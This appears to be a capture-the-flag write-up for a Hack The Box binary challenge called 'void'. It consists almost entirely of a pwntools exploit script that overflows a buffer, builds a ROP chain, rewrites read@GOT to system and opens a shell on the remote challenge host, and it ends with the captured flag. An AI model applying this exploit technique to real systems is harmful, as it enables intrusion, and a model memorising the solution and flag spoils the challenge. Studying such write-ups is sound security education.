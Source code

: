 ```python
p = remote('138.68.162.218', 30569)
# p = process('./void')

libc_elf = ELF("./libc.so.6")
elf = ELF("./void")

read_got = elf.got['read']
libc_system = libc_elf.symbols['system']
libc_read = libc_elf.symbols['read']

system_offset = libc_system - libc_read
log.info('system offset in libc from read: {}'.format(hex(system_offset)))
system_offset = system_offset & 0xffffffffffffffff
log.info('Twos complement of this offset: {}'.format(hex(system_offset)))

binsh_addr = elf.bss() + 0x10
log.info('/bin/sh string Address: {}'.format(hex(binsh_addr)))

rsi_r15 = 0x00000000004011b9
gadget = 0x004011b2
add_gadget = 0x0000000000401108
rdi = 0x00000000004011bb
ret = 0x0000000000401016

# stage 1 store string "/bin/sh" in .bss section
payload = b'A'*0x48
payload += p64(rsi_r15) + p64(binsh_addr) + p64(0)
payload += p64(elf.plt['read'])
# Stage 2 change read@GOT to system@GOT
payload += p64(gadget)
payload += p64(system_offset) + p64(elf.got['read'] + 0x3d) + p64(0)*4
payload += p64(add_gadget)
# call read("/bin/sh") = system("/bin/sh")
payload += p64(rdi) + p64(binsh_addr)
payload += p64(ret) # padding ret 
payload += p64(elf.plt['read'])

p.send(payload+b'/bin/sh\x00')

p.interactive()

```
Flag is: **HTB{r3s0lv3_th3_d4rkn355}**

## Original Posts

- [From FazeCT](https://fazect.github.io/htb2023/)
